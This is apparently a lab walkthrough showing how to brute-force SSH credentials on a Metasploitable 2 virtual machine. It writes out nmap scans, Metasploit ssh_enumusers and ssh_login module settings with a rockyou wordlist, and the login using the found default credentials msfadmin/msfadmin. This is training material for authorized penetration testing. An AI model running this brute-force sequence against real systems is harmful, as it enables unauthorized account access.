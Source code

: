 # 🔐 SSH Brute Force & Shell Access on Metasploitable 2

> This walkthrough demonstrates how I identified and exploited an SSH service on a Metasploitable 2 machine by brute-forcing valid credentials using Metasploit's auxiliary modules.

---

## 🧪 Lab Environment

| Role            | IP Address        | OS                      |
|-----------------|------------------|-------------------------|
| Attacker (Kali) | 192.168.182.129  | Kali Linux              |
| Target          | 192.168.182.128  | Metasploitable 2        |

---

## 🛠️ Step 1: Initial Port Scan

```bash
nmap -sS -sV -T4 -p- 192.168.182.128
```

📌 Output:
- 22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1

---

## 🔎 Step 2: SSH Auth Method Discovery

```bash
nmap -p 22 --script ssh-auth-methods 192.168.182.128
```

📌 Output:
- Supported authentication methods: publickey, password
- ✅ Password authentication enabled

---

## 🔍 Step 3: Username Enumeration Attempt

Metasploit module:
```bash
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 192.168.182.128
set USER_FILE /home/kali/users.txt
set THREADS 5
run
```

📌 Result:
- No valid usernames discovered (system likely returns same error for invalid users).

---

## 💥 Step 4: SSH Brute Force Login

Metasploit module:
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.182.128
set USER_FILE /home/kali/users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 5
run
```

📌 Result:
- Login Successful: `msfadmin / msfadmin`

---

## 🧠 Step 5: Gaining SSH Shell Access

```bash
ssh msfadmin@192.168.182.128
```

📌 Commands run after login:
```bash
whoami
→ msfadmin
```

✅ Valid credentials found, and SSH shell established.

---

## 🔐 Summary

| Element       | Detail                         |
|---------------|---------------------------------|
| Service       | SSH (OpenSSH 4.7p1)             |
| Vulnerability | Weak credentials               |
| Exploit Used  | Metasploit SSH Login Module    |
| Credentials   | msfadmin / msfadmin            |
| Access Gained | SSH shell                      |
| User Level    | msfadmin (non-root)            |


